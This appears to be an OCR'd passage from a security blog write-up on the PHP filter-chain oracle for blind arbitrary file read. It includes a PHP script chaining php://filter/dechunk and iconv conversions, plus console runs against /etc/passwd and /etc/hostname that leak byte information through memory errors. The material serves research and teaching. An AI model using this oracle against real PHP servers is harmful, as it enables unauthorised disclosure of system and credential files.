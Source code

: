 => [1] Preparing the Oracle filter chains...
</PRE>
```console
$ cat check-first-char-is-hex.php
  <?php
      file(implode('|', [
          // [*] becomes empty if the first byte is not in hexdigits
          'php://filter/dechunk',

          // [*] repeat many times as needed
          'convert.iconv.L1.UCS-4LE',
          'convert.iconv.L1.UCS-4LE',
          'convert.iconv.L1.UCS-4LE',
          // [...]

          // [*] append the target
          'convert.iconv.L1.UCS-4LE/resource=' . $argv[1]
      ]));
```
<PRE>

=> [2] the first byte of `passwd` is not in hexdigits
</PRE>
```console
$ php check-first-char-is-hex.php /etc/passwd
  PHP Fatal error:  Allowed memory size of 134217728 bytes exhausted
  (tried to allocate 94371840 bytes) in [...]
```
<PRE>

=> [3] no error means the first byte of `hostname` is in hexdigits
</PRE>
```console
$ php check-first-char-is-hex.php /etc/hostname && echo ok
  ok
```
<PRE>

Once the general idea took shape, the next step was building a complete
character-mapping table and iterating through the entire file byte by
byte. This process involved even more sophisticated filter tricks - such
as swapping byte order with different endianness, or fine-tuning encoding
combinations to get more precise results. Honestly, just looking at
@hashkitten's code gives me a headache; I can't imagine how much time he
spent grinding through this!

And once that barrier fell, the entire community jumped right in, pushing
this attack even further. First, @remsio released his own tool [67]. Then
@cfreal stepped up, not only adding custom suffixes [68], but also
sprinkling some serious magic [69] to perfect the attack. With all these
efforts combined, I think we can finally say we've conquered "Blind AFR"
once and for all in PHP!

============================================
|  Level Max - Filter Chain ~After Story~  |
============================================

